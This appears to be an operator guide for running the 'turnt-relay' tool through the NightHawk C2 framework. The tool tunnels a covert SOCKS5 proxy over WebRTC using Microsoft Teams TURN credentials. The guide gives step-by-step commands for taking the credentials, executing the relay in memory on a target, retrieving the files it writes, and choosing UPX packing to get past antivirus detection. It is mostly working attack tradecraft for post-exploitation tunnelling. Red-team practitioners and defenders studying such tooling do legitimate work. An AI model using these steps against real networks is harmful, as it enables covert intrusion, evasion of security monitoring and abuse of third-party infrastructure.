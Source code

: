 # 📘 Using TURNt with NightHawk In-Memory Execution Capability

## 🧭 Overview

This guide walks through the process of using the `turnt-relay` utility in combination with the NightHawk C2 platform to establish covert communications via WebRTC. While the integration is effective, there are important considerations around execution visibility, binary size, and relay configuration that you should be aware of.

1. **NightHawk does not stream real-time output from in-memory binaries**. This means when running tools like `turnt-relay`, the operator won’t see any feedback until the binary exits. To address this, the relay utility supports writing logs and WebRTC payloads to disk so the operator can later inspect them.
2. **In-memory execution performance depends heavily on binary size.** The larger the binary, the more overhead there is during in-memory staging, especially over slower C2 channels. While you *can* use the non-UPX-packed `turnt-relay` in memory, it often results in delayed execution and a poor operator experience. Using the **UPX-packed version** significantly reduces the binary’s size and improves responsiveness when executing in-memory.
3. **When writing the binary to disk**, the UPX version becomes a liability. Packed executables are more frequently flagged by antivirus tools, so it's better to use the uncompressed version in these cases.

> ⚠️ Summary of Execution Modes:
> - ✅ **In-memory**: Use UPX-packed binary for faster staging and execution.
> - 🟡 **In-memory (non-UPX)**: Works, but expect potential delay depending on C2 channel speed.
> - 🚫 **On-disk**: Avoid UPX — high AV detection risk.

## 🛠️ Step-by-Step Instructions

### Step 1: Retrieve TURN Credentials

```bash
$ turnt-credentials msteams
Successfully retrieved Teams credentials and saved to config.yaml
```

### Step 2: Launch the Controller with TURN Configuration

```bash
$ turnt-control -config ./config.yaml
```

Example output:
```text
[+] Starting SOCKS5 proxy (controller)...
[i] Creating WebRTC peer connection...
[i] Creating WebRTC offer...
[INFO] ICE gathering complete

===== BASE64 ENCODED OFFER PAYLOAD =====
<base64 offer payload>
========================================

[i] Waiting for answer...
```

On successful connection:
```text
[+] WebRTC connection established!
[INFO] Waiting for DNS and rportfwd channels to be ready...
[INFO] WebRTC connection state changed: connected
[INFO] WebRTC connection established successfully
[INFO] All channels ready, starting SOCKS server...
[INFO] SOCKS5 server listening on 127.0.0.1:1080
```

### Step 3: Execute the Relay in NightHawk (In-Memory Recommended)

```text
[nighthawk]> execute-exe C:\turnt-relay.exe -offer <BASE64_OFFER> -log-file log.txt -offer-file offer.txt
```

### Step 4: Download the Relay Output (Answer Payload)

After execution, download `offer.txt` from the target and supply it to the controller.

### Step 5: Understand Timeouts and File Behavior

- Timeout: 5 minutes
- Files written:
  - `log.txt`
  - `offer.txt`

### Step 6: Task Management in NightHawk

```text
[nighthawk]> list-tasks
[nighthawk]> cancel-task <TASK_ID>
```

### Step 7: View Help Options Locally

```bash
$ turnt-relay --help
```

```text
Usage of turnt-relay:
  -log-file string
    	Path to write log output (optional)
  -offer string
    	Base64 encoded offer payload
  -offer-file string
    	Path to write offer/answer data (optional)
  -verbose
    	Enable verbose logging
```

## ✅ Summary

- 🔐 Use `turnt-credentials` to get TURN config before beginning.
- 🛰️ Start the controller using `turnt-control` and capture the offer.
- 🧠 Use the UPX-packed `turnt-relay` binary for faster and more reliable in-memory execution — especially over high-latency channels.
- 🟡 The uncompressed binary also works in memory but may introduce delays.
- 🛠️ NightHawk doesn't show real-time output. Expect silence until the task completes.
- 📂 Retrieve `offer.txt` after execution and feed it back into the controller to complete the handshake.
- 📈 Use `list-tasks` and `cancel-task` to monitor and manage execution inside NightHawk.

> 💡 **Pro tip**: Keep your controller session visible at all times. It's your best source of real-time diagnostics for confirming successful WebRTC negotiation and SOCKS5 traffic flow.
